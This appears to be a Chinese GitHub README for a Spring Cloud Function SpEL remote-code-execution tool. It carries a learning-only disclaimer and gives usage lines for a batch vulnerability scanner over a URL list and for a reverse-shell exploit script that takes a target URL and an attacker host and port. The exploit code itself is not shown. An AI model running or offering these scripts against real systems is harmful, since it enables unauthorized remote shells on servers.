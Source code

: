 # Spring-cloud-function-SpEL-RCE

声明:该POC&EXP仅供于学习专用，禁止一切违法操作，如果进行恶意破坏与本人无关！！！

Spring-cloud-function-SpEL-RCE批量检测脚本，反弹shell脚本

一、批量检测脚本：

用法：

python Spel_RCE_POC.py  url.txt


加线程，效果师傅们自测，好用的话师傅们给个star，欢迎关注chaosec公众号

二、反弹shell：

反弹shell脚本

用法：

python Spel_RCE_Bash_EXP.py  url lhost lport

